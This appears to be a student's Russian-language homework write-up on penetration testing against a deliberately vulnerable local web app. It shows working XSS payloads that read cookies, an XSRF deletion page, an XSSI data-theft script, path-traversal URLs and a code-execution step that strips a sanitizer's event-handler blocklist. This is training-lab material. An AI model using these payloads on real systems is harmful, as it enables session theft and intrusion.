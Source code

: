 # Домашнее задание к занятию «Penetration Testing. Часть 1»

### XSS
Смотрим как система реагирует на несуществующую страницу:  
`http://localhost:8008/452002223606703030856276251408421215266/test`  
![](pic/xss-test-url.png)

 Далее используем XSS локатор из [OWASP CheatSheetSeries](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.md)  

Локатор:  
 `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`  

XSS:  
 `http://localhost:8008/530192841835716474238212610358927358482/%3Csvg/onload=alert(document.cookie)//'%3E`

 ![](pic/xss.png)  

------
 ### XSRF

На портале есть возможность добавления пользовательских сниппетов. При просмотре списка сниппетов есть кнопки удаления сниппетов и запрос вида  
`http://localhost:8008/530192841835716474238212610358927358482/deletesnippet?index=0`

Если заставить пользователя пройти по ссылке и провести атаку через хранимую XSS можно удалить сниппет от имени пользователя.  

![](pic/xsrf-snippet-list.png)  

Создаем страницу со скрытой ссылкой  
```
<link href="http://localhost:8008/551451167496643649739844506544308983555/deletesnippet?index=0" rel="stylesheet noreferrer" type="text/css">
<iframe width="1000px" height="1000px" src="http://localhost:8008/551451167496643649739844506544308983555/snippets.gtl"></iframe>
```

![](pic/xsrf-example.png)  

 ------

 ### XSSI
Создаем страницу с подключением скрипта `feed.gtl`  
На своей странице переопределяем функцию `_feed`  
```
<script>
    function _feed(data) {
      alert("Private user data: " + JSON.stringify(data));
    }
</script>
<script src="http://localhost:8008/551451167496643649739844506544308983555/feed.gtl"></script>
```
![](pic/xssi-example.png)

 ------

 ### Path traversal

Создаем двух пользователей `test`, `hacker`  
Добавляем файлы для обоих пользователей.  
![](pic/path-traversal-upload-file.png)

Далее пытаемся читать чужой файл составляя ссылку по аналогии со своей.  

```
http://localhost:8008/551451167496643649739844506544308983555/test/secret.txt
```

![](pic/path-traversal-test_secret.png)  

Можно читать файлы из корневой директории программы  
Пример запроса:  
```
http://localhost:8008/551451167496643649739844506544308983555/hacker%2F..%2F..%2Fsecret.txt
```
![](pic/path-traversal-secret.png)  

 ------

 ### Code Execution

Создаем пользователя с именем `..`  
Редактируем файл `sanitize.py`, удаляем ограничения на атрибуты событий:  
```
disallowed_attributes = [
      'onblur', 'onchange', 'onclick', 'ondblclick', 'onfocus',
      'onkeydown', 'onkeypress', 'onkeyup', 'onload', 'onmousedown',
      'onmousemove', 'onmouseout', 'onmouseup', 'onreset',
      'onselect', 'onsubmit', 'onunload'
  ]
```
Загружаем измененный файл и перезагружаем сервер 
вызвав метод сервера  
 `def _DoQuitserver(self, cookie, specials, params)`  

![](pic/code-execution-file-upload.png)  
![](pic/code-execution-quitsrv.png)  

Создаем новый сниппет:  
`<i onmouseup="alert(document.cookie)">Focus</i>`  

![](pic/code-execution-new-snippet.png)

Проверяем изменения:  
![](pic/code-execution-example.png)



------


